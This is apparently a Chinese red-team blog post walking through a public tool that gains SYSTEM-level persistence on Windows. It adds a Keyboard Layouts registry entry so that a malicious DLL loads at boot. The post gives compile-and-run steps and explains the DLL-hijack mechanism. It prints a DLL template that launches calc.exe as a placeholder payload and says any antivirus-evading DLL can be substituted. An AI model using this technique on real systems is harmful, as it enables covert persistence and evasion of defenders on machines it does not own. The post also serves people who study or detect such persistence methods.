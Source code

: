 ```yaml
---
layout: post
title: 通过注册表添加键盘映射维权
category: ['维权','红队工具','Done']
---
```




## 项目介绍

先放上项目地址

https://github.com/NtQuerySystemInformation/CustomKeyboardLayoutPersistence

```
If you want to compile your own keyboard driver:
	1.-Compile the keyboard driver and the dropper (KeyboardLayoutPersistence) as Release x64.
	2.-Replace the keyboard driver dll inside KeyboardLayoutPersistence folder. 
	3.-Execute the dropper and then reboot. 

If you just want to compile and test (precompiled dll)
	1.-Compile the dropper as Release x64 (KeyboardLayoutPersistence).
	2.-Execute and then reboot.
```

Release x64编译，需要将cpp语言标准选为最新

![image-20220322140659388](https://raw.githubusercontent.com/woaiqiukui/BlogPic/main/pics/image-20220322140659388.png)



编译成功后运行64位程序，关机重启，会弹出一个system权限的cmd，可以作为开机自启动的维权手段



## 项目原理

看下源码，可以发现是在配置键盘映射的注册表中新增了一个项

![image-20220322141004269](https://raw.githubusercontent.com/woaiqiukui/BlogPic/main/pics/image-20220322141004269.png)



在Keyboard Layouts的最后新增了一项，并将恶意的KBDPAYLOAD.dll进行加载

![image-20220322141054197](https://raw.githubusercontent.com/woaiqiukui/BlogPic/main/pics/image-20220322141054197.png)

对比看下这是简体中文对应的项

![image-20220322141552546](https://raw.githubusercontent.com/woaiqiukui/BlogPic/main/pics/image-20220322141552546.png)





![image-20220322143552297](https://raw.githubusercontent.com/woaiqiukui/BlogPic/main/pics/image-20220322143552297.png)

其中input.dll为键盘的默认布局，``@%SystemRoot%\system32\input.dll,-5000``是系统获取键盘布局的项，可以看到默认的系统键盘布局为US，也就是美国英文键盘。

那么也就不难理解，其实该项目也就是做了dll的劫持，在系统获取键盘布局时加载了恶意的KBDPAYLOAD.dll。原项目dll是做了弹出cmd，我们可以生成任意免杀的dll做劫持即可



比如做一个弹出计算机的x64的dll

```cpp
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"

DWORD WINAPI exec(LPVOID IpParameter) {
	WinExec("calc.exe", 0);
	return 0;
}


BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
	HANDLE hThread;
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
			hThread = CreateThread(NULL, 0, exec, 0, 0, 0);
			return 0;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}


```

此处生成的dll为calc.dll，所以要将项目中的引用进行修改

![image-20220322162841788](https://raw.githubusercontent.com/woaiqiukui/BlogPic/main/pics/image-20220322162841788.png)

![image-20220322162857741](https://raw.githubusercontent.com/woaiqiukui/BlogPic/main/pics/image-20220322162857741.png)

将dll放到KeyboardLayoutPersistence文件夹下，运行exe

![image-20220322162654956](https://raw.githubusercontent.com/woaiqiukui/BlogPic/main/pics/image-20220322162654956.png)

![image-20220322162755030](https://raw.githubusercontent.com/woaiqiukui/BlogPic/main/pics/image-20220322162755030.png)

然后重启机器

![image-20220322162312678](https://raw.githubusercontent.com/woaiqiukui/BlogPic/main/pics/image-20220322162312678.png)



## 总结

可以看作键盘布局的dll劫持

但是修改注册表的行为和dll还需要做进一步免杀

